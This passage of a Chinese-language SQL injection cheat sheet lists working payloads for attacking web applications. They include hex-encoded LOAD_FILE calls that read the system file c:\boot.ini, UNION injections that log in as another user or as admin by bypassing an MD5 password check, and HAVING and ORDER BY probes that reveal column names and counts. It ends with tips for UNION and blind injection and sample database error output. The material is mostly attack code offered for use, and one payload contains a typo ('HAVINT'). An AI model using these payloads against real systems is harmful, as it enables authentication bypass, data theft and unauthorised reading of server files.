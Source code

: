 * 没有引号的字符串
    + CHAR {SM}
    + CONCAT {M}

    > SELECT CONCAT(CHAR(75),CHAR(76)) => 'KL'

    + 0x457578 {M} \-\-16进制字符串
    + attack sample

    > SELECT LOAD_FILE(0x633A5C626F6F742E696E69) {M} => 'c:\bot.ini'

* 字符串Modification
    + ASCII() {SMP}
    + CHAR() {SM}

### 2. UNION注入

* sample

    > ' union select 1, 'anotheruser', 'not matter', 1\-\-

* 语言处理
    + Hex() {M}

* 绕过MD5哈希检查 {MSP}

    username:admin

    password:1234

    > ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055

    81dc9bdb52d04dc20036dbd8313ed055 = MD5(1234)

* 基于错误-探测字段名

    + HAVING {S}
        + ' HAVINT 1=1 \-\-
        + ' GROUP BY table.columnfromerror1 HAVING 1=1 \-\-
        + ' GROUP BY table.columnfromerror1, table.columnfromerror2 HAVING 1=1 \-\-
        + ...
    + SELECT 中使用 ORDER BY 探测字段数 {MSO}
        + ORDER BY 1 \-\-
        + ...
        + ORDER BY N \-\-

### 3. 数据类型、UNION、之类的

* 提示：

    + 经常给UNION配上ALL使用，因为经常会有相同数值的字段，而缺省情况下UNION都会尝试返回唯一值(records with distinct)
    + 如果你每次查询只能有一条记录，而你不想让原本正常查询的记录占用这宝贵的记录位，可以使用-1或者根本不存在的值来搞定原查询（前提是注入点在WHERE里）。
    + 在UNION中使用NULL，对于大部分数据类型来说这样都比瞎猜字符串、日期、数字之类的来得强
    + 盲注的时候要小心判断错误是来自应用的还是来自数据库的。因为像ASP.NET就经常会在你使用NULL的时候抛出错误（一般用户名的框中不会出现NULL）

+ 获取字段类型
    + ' union select sum(columntofind) from users\-\- {S}

    > Microsoft OLE DB Provider for ODBC Drivers error '80040e07' [Microsoft][ODBC SQL Server Driver][SQL Server]The sum or average aggregate operation cannot take a **varchar** data type as an argument. 如果没有返回错误说明字段是数字类型
